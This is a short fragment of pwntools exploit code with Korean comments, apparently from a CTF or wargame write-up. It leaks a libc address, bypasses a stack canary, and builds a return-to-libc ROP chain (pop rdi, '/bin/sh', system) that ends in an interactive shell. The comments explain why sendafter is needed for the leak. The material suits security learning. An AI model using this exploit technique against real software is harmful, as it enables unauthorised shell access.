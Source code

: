 ```
# p.send(payload)
# 여기서는 p.send가 안되는 이유가 위에서 canary를 받을 때, p.recv(7) 뒤에 남은게 read 변수에서 받을 p.recv(6)에 저장되버리기 때문에,
# b'Buf :' 이후에 send를 보내서 해당 출력 이후에 받는 recv를 read에 저장해야 하기 때문에 sendafter를 해줘야함

p.sendafter(b'Buf: ', payload)
read = p.recvn(6) + b'\x00'*0x2
system = u64(read) - read_system_offset
binsh = u64(read) - read_binsh_offset

print(hex(u64(read)))

# second main

payload = b'a'*0x38 + canary + b'a'*0x8

p.send(payload)
# p.sendafter(b'Buf: ', payload)

payload += p64(ret)
payload += p64(pop_rdi) + p64(binsh)
payload += p64(system)

p.send(payload)
p.interactive()
```
